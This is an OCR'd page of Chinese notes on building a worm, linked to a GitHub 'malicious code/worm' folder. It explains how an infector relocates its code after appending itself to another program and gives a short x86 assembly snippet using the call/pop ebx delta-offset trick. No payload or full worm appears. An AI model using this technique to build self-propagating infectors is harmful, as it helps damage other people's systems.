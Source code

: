 # 蠕虫母体

[mycode/恶意代码/蠕虫 at 5b68fd9d3eb4a03d5c9dd90995c28ec1c7619fb4 · redqx/mycode](https://github.com/redqx/mycode/tree/5b68fd9d3eb4a03d5c9dd90995c28ec1c7619fb4/恶意代码/蠕虫)

代码的运行肯定还是需要配置一下visual stdio的

# 总体原理

# 如何重定位

![Untitled](%E8%A0%95%E8%99%AB%E6%AF%8D%E4%BD%93%20a40de4f2b6f74675ac4fee1032254895/Untitled.png)

左边那个图是没有感染别人时候

右边那个图是把自己附加到别人那里去的时候

左边那个图,y1的地址就是=x1+y1-x1=ebx+y1-x1

其中x1的地址可以通过pop ebx的方式获取

所以y1的地址=真实地址+偏移

对于右图而言,是同理的

y2的地址就是x2(真实地址)+偏移

x2的获取是通过pop ebx

偏移地址是二进制文件中写死了的

```nasm
__asm {
        push eax;
        push ebx;
        push ecx;

        call label_reloc;
    label_reloc:
        pop ebx; //获取真实地址
 
        lea eax, apiAddr;lea eax,ds:00405787;mov eax,0x00405787 等价的
				sub eax, label_reloc;sub eax,0x00405900  等价的
				
        add eax, ebx;

        lea ecx, lp_apiAddr;
        mov[ecx], eax;

        pop ecx;
        pop ebx;
        pop eax;

    }
```
